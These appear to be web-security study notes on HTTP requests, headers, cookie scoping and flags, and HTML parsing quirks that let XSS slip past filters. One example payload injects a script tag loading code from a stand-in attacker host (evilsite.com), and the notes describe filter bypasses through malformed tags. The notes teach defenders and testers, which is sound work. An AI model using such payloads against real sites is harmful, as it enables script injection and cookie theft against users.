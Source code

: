 ### Requests
Basic HTTP request format is as follows:
```
VERB /resource/locator HTTP/1.1
header1: value1
header2: value2

<body of Request>
```

Headers and bodies are split by a simple new line and the verb represents your HTTP method (PUT/POST/GET etc).

#### Common headers
```
Host: indicates the desired host handling the request
Accept: Shows which MIME type(s) are accepted by the client makign the request. Normally used to specify if you want JSON/XML for web services.
Cookie: Passes cookie data to server
Referer: The page which lead to the request being made. NOTE this is not passed to other servers when using HTTPS on the origin.
Authorization: used for basic auth pages. Takes form "Basic <base64'd username:password>"
```
Basic auth has no encryption, it's just base64'd.

#### Cookies
These are key-value pairs of data. They are sent from the server and sit on the client for a specific length of time.

They have a scope associated with them to tell the browser where they are or are not valid.
Each cookie has a domain pattern that it applies to and they're passed with each request the client makes to matching hosts.

Common breaches of security are if you are able to set cookies where you shouldn't be or if cookies are going places they shouldn't be.

#### Cookie security
- Cookies added for .example.com can be read of ANY subdomain of example.com.
- Cookies added for a subdomain can only be read in that subdomain and it's subdomains.
- A subdomain is able to set cookies for it's own subdomains and parent but it can't set cookies for sibling domains.
For example, `test.example.com` can't set cookies on `test2.example.com` but **can** set them on `example.com` and `foo.test.example.com`.

We should keep this parent/child style hierarchy in mind when investigating as this is something people mess up a lot.

People will scope cookies where unauthorised/insecure code is running along side secure code and access the same cookies.

#### Cookie flags
We should note that there are two important flags to know for cookies.
- Secure: The cookie will only be accessible to HTTPS pages
- HTTPOnly: The cookie cannot be read by Javascript
The server indicates these flags in the Set-Cookie header that passes them in the first place.

Normally we can use `Document.cookie` attribute to check the cookies but if HTTPOnly is set, those cookies won't be read.

### HTML
#### Parsing
HTML **should** be parsed according to the relevant spec, which is generally HTML5 now.

When we're talking about security, it's often not just parsed by a web browser but often also Web-Application firewalls and other filters. If there is ever a discrepancy between how two items parse the same thing, there's often a vulnerability.

##### Example
If we go to `example.com/vulnerable?name=<script/xss%20src=http://evilsite.com/my.js>` and it generates:
```
<!doctype html><html>
  <head>
    <title>Vulnerable page named <script/xss src=http://evilsite.com/my.js></title>
  </head>
</html>
```
In this case, it's a simple script with a source attribute.
We notice that in the HTML we have `/xss` in our HTML. This does nothing as the `/` will be treated as whitespace and the xss becomes an empty html attribute when parsed by the browser.
With a webapp firewall improperly parsing HTML, a webapp firewall will see this as a html tag named "script/xss" and will allow it straight through the filter. This means the firewall doesn't see this as a script tag but user's browsers will due to differences in the HTML spec they're using to parse.

#### Legacy parsing
Browsers are built to handle the web. Due to decades of bad HTML, browsers are good at cleaning up after authors but these are often exploitable.
For example, a `<script>` tag with no closing tag will not error out the page completely but rather the browser will often complete the tag for you and just provide back some simple syntax errors.

Let's say we have a XSS attack in the URL and we can't put a slash in there because it's conisdered a path separator for URL's. This is a very common case scenario. In addition to the above, a tag missing it's closing angle bracket will usually be closed by the angle bracket of the next tag on the page.

So even having an open angle bracket inside another open angle bracket isn't valid by HTML spec but it is valid according to most browsers which will attempt to "cleanup" for you, allowing you to bypass many filters.
